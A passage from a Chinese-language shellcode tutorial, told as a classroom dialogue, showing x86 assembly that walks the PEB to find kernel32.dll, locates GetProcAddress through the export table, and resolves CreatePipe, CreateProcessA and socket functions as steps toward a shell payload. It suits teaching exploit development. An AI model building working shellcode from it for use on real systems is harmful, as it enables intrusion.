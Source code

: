“而现在，我们首先加上一段前面的动态获取 GetProcAddress 函数地址的代码。”

```
mov eax, fs:0x30 ;PEB
mov eax, [eax + 0x0c] ;Ldr
mov esi, [eax + 0x1c] ;Flink
lodsd 
mov edi, [eax + 0x08] ;edi 就是 kernel32.dll 的地址
mov eax, [edi+3Ch] ;eax = PE 首部
mov edx,[edi+eax+78h]
add edx,edi ;edx = 输出表地址
mov ecx,[edx+18h] ;ecx = 输出函数的个数
mov ebx,[edx+20h] 
add ebx,edi ;ebx ＝函数名地址,AddressOfName 
search:
dec ecx
mov esi,[ebx+ecx*4] 
add esi,edi ;依次找每个函数名称
;GetProcAddress
mov eax,0x50746547
cmp [esi], eax; 'PteG'
jne search
mov eax,0x41636f72
cmp [esi+4],eax; 'Acor'
jne search 
;如果是 GetProcA，表示找到了 
mov ebx,[edx+24h]
add ebx,edi ;ebx = 索引号地址，AddressOf
mov cx,[ebx+ecx*2] ;ecx = 计算出的索引号值
mov ebx,[edx+1Ch]
add ebx,edi ;ebx＝函数地址的起始位置,AddressOfFunction
mov eax,[ebx+ecx*4] 
add eax,edi ;利用索引值，计算出 GetProcAddress 的地址 
```

“然后，依次动态获得 CreatePipe、CreateProcessA 等函数的地址，替换直接存放的值。比如，找 CreatePipe 函数地址的代码如下：”

```
push dword ptr 0x00006570
push dword ptr 0x69506574
push dword ptr 0x61657243
push esp
push edi 
call [ebp+76]
mov [ebp+4], eax; CreatePipe 
```

老师解释道：“相当于执行 GetProcAddress（kernel32 基址，”CreatePipe”）。还是一样，先把参数 CreatePipe 字符串地址和 kernel32 的基址值依次入栈，然后 call GetProcAddress 函数的地址（我们之前把它存在 ebp+76 的地方），所以 call [ebp+76] 就执行了 GetProcAddress (kernel32 基址，”CreatePipe”) 这句话。Eax 为返回值——CreatePipe 函数的地址，我们把它存在对应的 ebp+4 的地方。”

“哦！”同学们明白了，“后面的函数也是这样获取？”

“是的！”老师说到，“但要注意，像 Socket 一类套接字函数的地址，不是在 kernel32.dll 中，而是在 Ws2_32.dll 中！所以，我们要先 LoadLibrary(“Ws2_32.dll”) 获得 Ws2_32.dl 的基址，再用 GetProcAddress (Ws2_32.dl 基址,” socket”) 来获取类似套接字函数的地址。”
